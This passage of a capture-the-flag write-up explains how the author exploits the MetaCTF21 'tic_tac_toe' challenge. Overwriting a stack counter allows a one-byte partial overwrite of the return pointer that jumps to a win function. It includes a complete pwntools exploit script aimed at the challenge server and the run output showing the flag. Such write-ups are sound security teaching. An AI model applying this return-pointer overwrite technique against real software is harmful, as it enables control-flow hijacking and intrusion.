 ```
gef➤  
```
This turns out to be very convenient; it returns out near the end of the main function at address 0x0000564c588a8645, and the win function is at 0x0000564c588a864f. As a result, a single-byte overwrite should work. In addition, the byte that I need to overwrite is the byte of 'O'. This means that once it is input, the program will return out to the win function that has been newly placed in the return pointer, which is ideal.

Finally, I do need to figure out exactly what I need to overwrite the counter stack variable with in order to overwrite the lowest byte of the return pointer. I did it by looking at the stack offset of the board variable in Ghidra, which is -0x13, so the appropriate offset should be at 0x13. 1 is getting added to the value in counter before it is used to determine where the stack write occurs, so the value to write to the counter variable should be 0x12. The fact that this is low also explains why entering a large amount of bad characters in ascii typically fails to generate a segfault; the return pointer is being overshot completely.

## Writing the Exploit

At this point, the exploit itself is very straightforward. I just need to pad it with nine bad characters, include a b'\x12' to overwrite the counter, the add an 'O' in order to partial overwrite the return pointer with the function. Here is the full exploit script:
```
from pwn import *

#target = process('./chall') 

#pid = gdb.attach(target, "\nb *read_board+29\nb *read_board+352\n set disassembly-flavor intel\ncontinue")

target = remote('host.cg21.metaproblems.com', 3120)

print(target.recvuntil(b'time if you prefer'))

payload = (b'a' * 9 + b'\x12' + b'\x4f')

target.sendline(payload)

target.interactive()
```
And here is how it looks when I run the script:
```
knittingirl@piglet:~/CTF/metaCTF21/tic_tac_toe$ python3 tic_tac_toe_payload.py 
[+] Opening connection to host.cg21.metaproblems.com on port 3120: Done
b"Check out this sweet Tic-Tac-Toe Solver I made!\nAll you have to do is to input your array into the system and I'll tell you who won\nYou can enter them all at once, or one at a time if you prefer"
[*] Switching to interactive mode

Bad Character, try again
Bad Character, try again
Bad Character, try again
Bad Character, try again
Bad Character, try again
Bad Character, try again
Bad Character, try again
Bad Character, try again
Bad Character, try again
Bad Character, try again
Something went wrong
Something went wrong
Something went wrong
The game is a CAT
MetaCTF{Tic_Tac_Pwn}
\x7f\x00\xa0\xc0\xd9\xd3%V\x00\xe0\x99C\xff\x7f\x00\x00\x00\x00\x00z\xc4\xd9\xd3%V\x00\xf9\xc3\xd9\xd3%V\x00\xe6\x99C\x00\x00\xf0\x99C\xff\x7f\x00\x06\xd9\xd3%V\x00\xa0\xc0\xd9\xd3%Vaaaaaa$
```